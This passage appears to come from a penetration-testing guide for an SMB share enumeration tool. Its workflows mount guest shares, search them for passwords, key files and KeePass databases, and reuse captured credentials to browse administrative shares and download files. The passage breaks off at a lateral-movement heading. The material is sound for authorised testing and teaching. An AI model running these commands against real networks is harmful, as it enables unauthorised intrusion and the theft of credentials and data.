 
**Common Findings**:
- User accounts and group memberships
- Password policy information
- Share permissions
- Domain SID information

### Workflow 3: Share Access Testing
**Objective**: Test read/write access to discovered shares

```bash
# 1. Enumerate with access testing
./smbseek.py -t

# 2. Review accessible shares
cat sharelist.txt

# 3. Mount interesting share
mkdir /mnt/share
mount -t cifs //192.168.1.50/Users /mnt/share -o guest

# 4. Search for sensitive files
find /mnt/share -name "*.txt" -o -name "*.doc*" -o -name "*.xls*"
grep -ri "password" /mnt/share/
find /mnt/share -name "*.kdbx" -o -name "*.key" -o -name "id_rsa"

# 5. Unmount
umount /mnt/share
```

### Workflow 4: Authenticated Enumeration
**Objective**: Use captured credentials to enumerate additional shares

```bash
# 1. Scan with credentials (e.g., from Responder)
./smbseek.py -u admin -p Password123 -t -v

# 2. Compare with null session results
# Authenticated access often reveals more shares

# 3. Access administrative shares
smbclient //192.168.1.50/C$ -U admin%Password123
smb: \> ls
smb: \> cd Users
smb: \> ls

# 4. Download sensitive files
smb: \> get important_file.txt
```

### Workflow 5: Lateral Movement via Shares
**Objective**: Use SMB shares for lateral movement
